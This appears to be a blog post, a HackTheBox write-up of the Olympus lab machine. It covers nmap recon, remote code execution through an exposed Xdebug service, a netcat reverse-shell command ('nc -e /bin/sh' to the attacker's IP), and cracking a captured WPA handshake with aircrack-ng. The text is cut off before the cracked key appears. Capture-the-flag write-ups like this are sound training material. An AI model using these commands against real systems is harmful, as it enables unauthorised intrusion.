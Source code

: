 ```yaml
---
published: true
---
```


<center><h1><b>HackTheBox Olympus Writeup</b></h1></center>

This is a writeup for the machine olympus from HackTheBox and also my first security blogpost.<br>
  **Lets get started** 

## Step 1: Initial Recon<br>

So now lets perform a nmap scan on the host ip which is 10.10.10.83. The nmap command is given below:<br>
    `nmap -sC -sv -oA default -n 10.10.10.83`
<br>The scan output from nmap is shown below:<br>
![1](https://fir3wa1-k3r.github.io/imgs/olymupus_1.png)

As we see it has 3 open ports and one filtered port.

`22/tcp		filtered	ssh`<br>
`53/tcp		open		domain`<br>
`80/tcp		open		http`<br>
`2222/tcp	open		ssh`<br>

Here the port 22 is being filtered which means that nmap is unable to find out whether the port is open or not. And port 53 which has to be using UDP protocol is now using TCP, there is something fishy here, lets get to it later.
Here is the image from the website when we check out the http service on the host
<br>
<p align="center">
  <img width="460" height="500" src="https://fir3wa1-k3r.github.io/imgs/olympus_2.png">	
</p>

And concurrently when we run gobuster for directory bruteforcing that resulted in the `index.php` page which is the redirection to the original homepage.<br>
After performing a stego analysis on the images i found nothing. Then i jumped to analyse the response from the web server.Then by looking into the header `Xdebug: 2.5.5`, we can get to know that Xdebug is enabled in the server, which can allow remote debugging facility for developers.<br>
> For more info about XDebug check [here](https://xdebug.org/docs/).

<p align="center">
  <img width="656" height="398" src="https://fir3wa1-k3r.github.io/imgs/olympus_3.png">	
</p>

Hence we can utilize this service to get initial foothold in the machine. The service can be exploited by sending the specially crafted http request to the server to connect back to port 9000. Then we can get Remote Code Execution using the eval function in php.

> For more information about exploiting the Xdebug service please visit [here](https://paper.seebug.org/397/)

<p align="center">
  <img width="1000" height="255" src="https://fir3wa1-k3r.github.io/imgs/olympus_4.png">	
</p>

We can also see that the `XDEBUG_SESSION` cookie is being set by the server and it enable us to utilize the feature of remote debugging. Hence we can potentially exploit the service using eval funtion.<br>

<p align="center">
  <img width="656" height="398" src="https://fir3wa1-k3r.github.io/imgs/olympus_5.png">
</p>

I have written a simple python script which sends the payload to the server which then executes code. Now we have RCE(Remote Code Execution) on the server.

<p align="center">
  <img width="750" height="273" src="https://fir3wa1-k3r.github.io/imgs/olympus_6.png">
</p>
As we enumerate through the web server we see that it doesn't have python installed. So one of the way to get a shell is through netcat in which the -e switch is allowed in this machine. We received a low privileged shell using the following command:<br>
`nc -e /bin/sh <my_IP> <port>`<br>
After enumerating for a some time i found user zeus on the box. So i navigated to the users' home directory. Then i found a file called captured.pcap in `/home/zeus/airgeddon/captured/` directory.Then transfered that file into my machine using base64 transfer technique (will be breifly introducing the methods to transfer files in the upcoming posts). By doing a `file` command on the .cap file we see the following output:<br>
<p align="center">
  <img width="900" height="18" src="https://fir3wa1-k3r.github.io/imgs/olympus_7.png">
</p>

Looks like its a packet capture file. When we open this caputure file in `Wireshark` we see a lot of deauth and handshake frames and as we carefully examine through the file in Wireshark we can actually see something about BSSID and it was mentioned as `Too_cl0se_to_th3_Sun`. Then i got to know that its some kind of wireless WPA capture file using which i can crack the WPA keys.<br>
So i fired up my **aircrack-ng**<br>

`$aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt`

Which took me around 20 mins to crack the WPA key according to my system specs. And finally the key was:<br>

<p align="center">
  <img width="294" height="30" src="https://fir3wa1-k3r.github.io/imgs/olympus_8.png">
</p>


